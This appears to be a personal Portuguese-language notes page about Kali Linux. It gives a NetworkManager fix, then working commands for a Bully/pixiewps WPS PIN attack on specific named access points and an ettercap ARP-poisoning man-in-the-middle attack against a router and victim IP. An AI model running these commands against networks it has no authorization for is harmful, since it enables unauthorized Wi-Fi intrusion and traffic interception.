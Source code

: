 ```yaml
---
title: "Kali"
date: 2019-01-01T00:00:00-03:00
last_modified_at: 2023-11-25T00:00:00-03:00
excerpt_separator: "<!--more-->"
categories:
  - IT
  - Hacks
tags:
  - firma
---
```


## _Bugs_

Em novembro de 2023 notei que o Kali não encontrava as redes. Lendo o _post_ [kali linux doesn't detect wireless networks](https://superuser.com/questions/892652/kali-linux-doesnt-detect-wireless-networks)

```shell
sudo nano /etc/NetworkManager/NetworkManager.conf

systemctl status NetworkManager
systemctl restart NetworkManager
systemctl start NetworkManager
```

<br>

Alterar para..

```shell
[ifupdown]
managed=true
```

<br>

---

## Bully

```bash
# Associação
sudo bully --bssid D8:C6:78:0F:73:14 --essid VIVO-7314 --eapfail --nofcs --pixiewps --channel 11 --verbosity 4 wlan0mon
#[!] Received disassociation/deauthentication from the AP
#[+] Rx(  M1  ) = 'EAPFail'   Next pin '20075361'

# Mi 8 Lite
sudo bully --bssid 5E:8F:53:F6:37:D0 --essid "MI 8 Lite" --eapfail --nofcs --pixiewps --channel 11 --verbosity 4 wlan0mon
```

<br>

---

## ARP Poison

[How Hackers SNiFF (capture) network traffic // MiTM attack](https://www.youtube.com/watch?v=-rSqbgI7oZM)

```bash
# Scan network looking for devices
sudo nmap -sn 192.168.0.1/24

# Man-in-the-Middle (MiTM) attack
sudo ettercap -T -S -i {interface} -M arp:remote /{ip router}// /{ip vítima}//
sudo ettercap -T -S -i wlan0mon -M arp:remote /192.168.0.1// /192.168.0.110//
#-T	text-only
#-S	no use ssl

# After capture using wireshark
sudo wireshark
```
